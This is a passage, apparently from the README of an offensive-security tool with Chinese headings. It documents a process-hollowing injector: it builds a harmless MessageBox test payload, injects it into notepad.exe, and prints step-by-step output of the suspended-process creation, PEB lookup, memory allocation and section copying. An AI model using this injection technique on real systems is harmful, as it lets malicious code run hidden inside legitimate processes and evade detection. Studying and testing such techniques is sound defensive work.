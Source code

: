 ```c

    MessageBoxA(NULL, "Advanced Hollowing Payload Executed!", "Success", MB_OK);
    return 0;
}
```

**编译 payload：**
```bash
cd build
gcc test_payload.c -o test_payload.exe -O2 -s -mwindows
```

### 3. 执行注入测试

```bash
cd build

# 运行注入器
./advanced_hollowing.exe "C:\Windows\System32\notepad.exe" test_payload.exe
```

**测试输出：**
```
===================================================================
Advanced Process Hollowing (No NtUnmapViewOfSection)
Based on: PichichiH0ll0wer by itaymigdal
===================================================================

[*] Target: C:\Windows\System32\notepad.exe
[*] Payload: test_payload.exe

[*] Step 1: Reading payload PE file...
[+] Payload loaded: 16896 bytes

[*] Step 2: Parsing PE headers...
[+] Preferred ImageBase: 0x0000000140000000
[+] Image Size: 0xC000
[+] Entry Point RVA: 0x13D0

[*] Step 3: Creating suspended target process...
[+] Process created (PID: 108560)

[*] Step 4: Retrieving PEB address...
[+] PEB Address: 0x000000F905F8E000

[*] Step 5: Allocating memory in target process...
[*] Trying preferred address: 0x0000000140000000
[+] New ImageBase: 0x0000000140000000
[+] New EntryPoint: 0x00000001400013D0

[*] Step 6: Copying PE headers...
[+] Headers copied

[*] Step 7: Copying PE sections...
[*] Section 0: .text (0x1C00 bytes at 0x0000000140001000)
[*] Section 1: .data (0x200 bytes at 0x0000000140003000)
[*] Section 2: .rdata (0x800 bytes at 0x0000000140004000)
[*] Section 3: .pdata (0x400 bytes at 0x0000000140005000)
[*] Section 4: .xdata (0x200 bytes at 0x0000000140006000)
[*] Section 5: .bss (0x0 bytes at 0x0000000140007000)
[*] Section 6: .idata (0xC00 bytes at 0x0000000140008000)
[*] Section 7: .CRT (0x200 bytes at 0x0000000140009000)
[*] Section 8: .tls (0x200 bytes at 0x000000014000A000)
[*] Section 9: .reloc (0x200 bytes at 0x000000014000B000)
[+] All sections copied
```